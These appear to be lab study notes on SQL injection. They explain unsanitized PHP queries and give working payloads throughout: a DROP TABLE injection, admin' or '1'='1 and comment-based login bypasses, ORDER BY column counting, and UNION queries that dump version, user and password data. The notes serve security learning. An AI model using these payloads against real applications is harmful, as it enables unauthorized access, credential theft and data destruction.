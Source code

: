 # 🚑 Basic injections:

An SQL injection occurs when user-input is inputted into the SQL query string without properly sanitizing or filtering the input.

Let's imagine the following code:

```php
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);
```

The query to the database would be:

```sql
select * from logins where username like '%$searchInput'
```

So with a single quote, we could break everything:

```php
'%1'; DROP TABLE users;'
#which would turn out like this:
select * from logins where username like '%1'; DROP TABLE users;'
```

Here are the differente sql injections:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go more in depth with the famous login bypass:

```sql
admin' or '1'='1
```

The final query should look like this:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

What happens on rhe backend is:

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

We can also try the inverted command and use OR statement on the password with the `'1'='1` or `' or '1' = '1`:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

You can also use comments to bypass auth, the query looks something like this when you use comments:

```shell-session
mysql> SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

So we can inject `admin'--` as our username. The final query will be:

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

We can also target users:

```sql
SELECT * FROM logins where (username='admin')
```

_**Login as the user with the id 5 to get the flag.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
') OR id =5 -- -
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Union

The [Union](https://dev.mysql.com/doc/refman/8.0/en/union.html) clause is used to combine results from multiple `SELECT` statements. This means that through a `UNION` injection, we will be able to `SELECT` and dump data from all across the DBMS, from multiple tables and databases.

```shell-session
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
```

A `UNION` statement can only operate on `SELECT` statements with an equal number of columns.

If we wanted to use union statement on different numbers of columns:

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

The above query would return `username` and `password` entries from the `passwords` table, assuming the `products` table has two columns.

To define how many columns a table has, we can use ORDER BY. We start with `order by 1`, then we will do `order by 2` and then `order by 3` until we reach a number that returns an error. If we failed at `order by 4`, this means the table has three columns

```sql
' order by 5-- -
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>So there are 4 columns</p></figcaption></figure>

We could also use the union command:

```sql
cn' UNION select 1,2,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and now that we got the number of columns we can start injecting:

```sql
cn' UNION select 1,@@version,3,4-- -
```

`We cannot place our injection at the beginning, or its output will not be printed.`

This is the benefit of using numbers as our junk data, as it makes it easy to track which columns are printed, so we know at which column to place our query. To test that we can get actual data from the database 'rather than just numbers,' we can use the `@@version` SQL query as a test and place it in the second column instead of the number 2:

```sql
cn' UNION select 1,@@version,3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use a Union injection to get the result of 'user()'**_

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
'UNION SELECT 1,user(),3,4-- -
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
